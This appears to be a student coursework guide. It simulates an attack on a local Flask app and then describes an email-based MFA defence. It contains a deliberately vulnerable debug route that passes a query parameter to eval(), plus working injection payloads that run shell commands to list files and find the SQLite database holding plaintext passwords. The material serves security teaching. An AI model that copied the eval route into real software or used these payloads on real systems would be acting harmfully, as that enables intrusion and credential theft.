 # 🛠️ Simulated Attack Chain 1 Guide (Full Workflow)

This document provides a step-by-step simulation of a realistic attack chain that starts from a remote code execution (RCE) vulnerability exposed through a debug route and ends with leaking plaintext user passwords(or password hash value) stored in the SQLite database. This can be used as part of our Coursework 1: Simulate Attacks section.

## 🔗 Attack Flow Overview

```mermaid
graph TD
    A1[Access /debug endpoint with RCE] --> A2[List file system recursively]
    A2 --> A3[Identify instance/bidding.db via 'ls']
    A3 --> A4[Use simulate_attack_password_leak.py to extract credentials]
```
## ✅ Prerequisites

Flask app running locally on http://127.0.0.1:5000

A debug route enabled in app.py (for testing only!):

@app.route('/debug')
def debug():
    from flask import request
    q = request.args.get('q')
    return str(eval(q))

## 🧨 Step-by-Step Attack Simulation

### 🔍 Step 1: List server file system recursively

`http://127.0.0.1:5000/debug?q=__import__('os').popen('ls -R').read()`

This lists all folders and subfolders. Identify instance/ or other folders that may contain .db files.
![alt text](image-1.png)

### 🔍 Step 2: Search for .db files

`http://127.0.0.1:5000/debug?q=__import__('os').popen("find . -name '*.db'").read()`

Expected output:

`./instance/bidding.db`
![alt text](image.png)

### 🧪 Step 3: Run the leak script to extract plaintext passwords
Update DB_PATH in simulate_attack_password_leak.py with `instance/bidding.db`
run:
```
python simulate_attack_password_leak.py
```
You will see all usernames, emails, and plaintext passwords (because our system currently stores them insecurely).
![alt text](image-2.png)


# Corresponding Secure Policy
To mitigate the risk of credential theft and unauthorized login—especially when the attacker extracts username-password pairs from a leaked database—we implemented a multi-factor authentication (MFA) mechanism that requires users to verify a one-time code sent to their email after successfully entering their password.

This defense is particularly effective against:

- Database leakage (as simulated in the attack)
- Password reuse across platforms
- Credential stuffing from previously leaked data

![alt text](image-3.png)
![alt text](image-4.png)
✨ Key Features of MFA Design

### ✨ Key Features of MFA Design

| Component            | Description                                                              |
|----------------------|---------------------------------------------------------------------------|
| **Verification Method** | Email-based 6-digit code (one-time use)                                  |
| **Trigger Point**        | After username/password verification, before completing login             |
| **Storage**              | Code is stored temporarily in Flask `session`                             |
| **Expiration**           | Codes are valid for one session or approximately 3 minutes               |
| **Mail Sender**          | SMTP via Flask-Mail (e.g., using QQ or Gmail SMTP)                       |
